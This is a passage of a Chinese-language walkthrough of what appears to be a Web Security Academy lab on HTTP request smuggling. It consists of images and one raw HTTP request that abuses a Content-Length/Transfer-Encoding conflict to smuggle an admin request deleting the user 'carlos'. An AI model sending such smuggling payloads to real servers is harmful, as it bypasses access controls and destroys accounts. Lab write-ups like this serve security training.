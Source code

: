[![](assets/1704418275-b11a339dd661b8cb2ccece5e8963e6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155500-65794e80-aa0d-1.png)  
从上面可以看到进入到了admin的控制面板，随后调用接口执行删除操作

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-3feca3ffc86dd7c34d12ccc7bedbdcf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155540-7d243996-aa0d-1.png)  
随后刷新页面完成解题：  